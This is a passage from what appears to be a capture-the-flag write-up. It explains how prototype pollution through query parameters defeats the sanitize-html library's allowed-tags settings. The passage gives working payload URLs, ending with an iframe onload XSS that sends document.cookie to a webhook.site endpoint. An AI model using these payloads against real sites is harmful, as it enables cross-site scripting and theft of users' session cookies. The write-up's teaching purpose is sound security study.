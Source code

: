     - `value = "script"`
        

It splits `__proto__` and `allowedTags`, then recursively does:

```js
obj["__proto__"] = {}
obj["__proto__"]["allowedTags"] = "script"
```

But **because `__proto__` is a special key**, this **modifies the prototype of all objects** in the page:

```js
{}.allowedTags === "script" // now true globally!
```

So now:

```js
sanitizeHtml("<script>alert(1)</script>")
```

→ allows `<script>` through! Because `sanitizeHtml()` uses default options merged with polluted `allowedTags`.

---

Now that we understand the problem, lets try to exploit it.  

```
http://34.134.162.213:17002/?__proto__[allowedAttributes][iframe][]=srcdoc
```

We can check if it was overwritten.  

<br/> 
<img src="/Screenshots_L3AK/bountyhunter_screenhots/Pasted image 20250715120931.png" alt="1" style="width:700px; height:auto;">
<br/>

We can perform the full attack now.  

```
http://34.134.162.213:17002/?sanitizeHtml.defaults.allowedAttributes.__proto__.*[0]=onload&note=%3Ciframe%20onload=%22alert()%22%3E%3C/iframe%3E
```

And we finally get an `alert`!!!.  

<br/> 
<img src="/Screenshots_L3AK/bountyhunter_screenhots/Pasted image 20250715121455.png" alt="1" style="width:700px; height:auto;">
<br/>

We can perform the full attack and leak the cookie to our server.  

```
 http://127.0.0.1:5000/?sanitizeHtml.defaults.allowedAttributes.__proto__.*[0]=onload&note=%3Ciframe%20onload%3D%22navigator.sendBeacon(%27https://webhook.site/d8892e90-c74d-4689-b8fe-ced3348495f9%27,document.cookie)%22%3E%3C%2Fiframe%3E
```
